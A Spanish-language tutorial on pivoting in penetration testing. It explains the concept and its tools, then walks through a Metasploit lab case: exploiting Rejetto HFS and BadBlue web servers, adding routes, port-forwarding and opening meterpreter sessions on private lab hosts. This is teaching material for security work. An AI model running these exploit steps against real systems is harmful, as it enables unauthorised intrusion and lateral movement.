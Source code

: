 # Pivoting en Ciberseguridad

## Introducción
El pivoting es una técnica esencial en el mundo de la ciberseguridad que implica moverse lateralmente dentro de una red comprometida para acceder a sistemas y recursos adicionales. Esta técnica es utilizada por los profesionales de seguridad para mantener y expandir el acceso a través de una infraestructura comprometida.

## ¿Qué es el Pivoting?
En términos sencillos, el pivoting se refiere a la acción de utilizar una máquina comprometida como punto de entrada para acceder a otros sistemas dentro de la red. Esta técnica es particularmente útil cuando se ha obtenido acceso a un sistema perimetral y se busca infiltrarse en segmentos de red más internos.

## Tipos de Pivoting
Existen varios tipos de pivoting en función de cómo se realiza el movimiento lateral:

- **Pivoting Directo:** Se realiza desde la máquina comprometida hacia otros sistemas dentro de la misma red.
- **Pivoting a Través de Saltos:** Implica moverse a través de múltiples máquinas comprometidas para alcanzar el objetivo deseado.
- **Pivoting en Cadena:** Consiste en conectar varios sistemas comprometidos para llegar a la red objetivo.

## Herramientas y Técnicas
Para llevar a cabo el pivoting, los profesionales de seguridad utilizan herramientas y técnicas específicas, como:

- **SSH Túneles:** Establecer conexiones seguras a través de SSH para redirigir tráfico.
- **Proxychains:** Enrutamiento de tráfico a través de una cadena de proxies.
- **Port Forwarding:** Redireccionamiento de puertos para acceder a servicios internos.
- **VPN y Socks:** Uso de VPN o servidores SOCKS para ocultar el origen del tráfico.

## Importancia en la Ciberseguridad
El pivoting es una habilidad crucial para los analistas de seguridad y los pentesters, ya que les permite comprender la amplitud de una infracción y evaluar la exposición potencial en una red comprometida. Además, ayuda a identificar y remediar posibles puntos de entrada y movimiento lateral en futuros ataques.

## Caso Práctico
![Pivoting](pivoting.png)

Esta imagen en lo personal me encanta, ilustra de manera perfecta de lo que quiere tratar el pivoting, en base a esta imagen vamos a tener una máquina víctima con IP 10.4.20.196 y otra máquina víctica con IP 10.4.20.195
```python
Victim Machine 1 : 10.4.20.196
Victim Machine 2 : 10.4.20.195
nmap -sV 10.4.20.196
//tiene una vulnerabilidad en 80/tcp    open  http               HttpFileServer httpd 2.3
use exploit/windows/http/rejetto_hfs_exec
set rhosts 10.4.20.196
ipconfig
//Interface 12 vemos lo siguiente
IPv4 Address : 10.4.20.196
IPv4 Netmask : 255.255.240.0
//debemos de establecer un ruteo para leer otras IP
run autoroute -s 10.4.20.0/20
background (ahora si guardamos la sesión)
use auxiliary/scanner/portscan/tcp (para escanear puertos)
set rhosts 10.4.20.195 (IP target 2)
set PORTS 1-100
run
//veremos algo como esto
[+] 10.4.20.195:          - 10.4.20.195:80 - TCP OPEN
//retornamos a la sesion para hacer un port foward
session 1
portfwd add -l 1234 -p 80 -r 10.4.20.195 (IP del target 2)
portfwd list (para validar)
//sin cerrar metasploit ejecutamos los siguiente en una terminal
nmap -sV -sS -p 1234 localhost
1234/tcp open  http    BadBlue httpd 2.7
//hay una vulnerabalidad para eso
use exploit/windows/http/badblue_passthru
set PAYLOAD windows/meterpreter/bind_tcp
set RHOSTS 10.4.20.195 (IP del objetivo 2)
run
background
session
(veremos 2 sesiones !!)
```
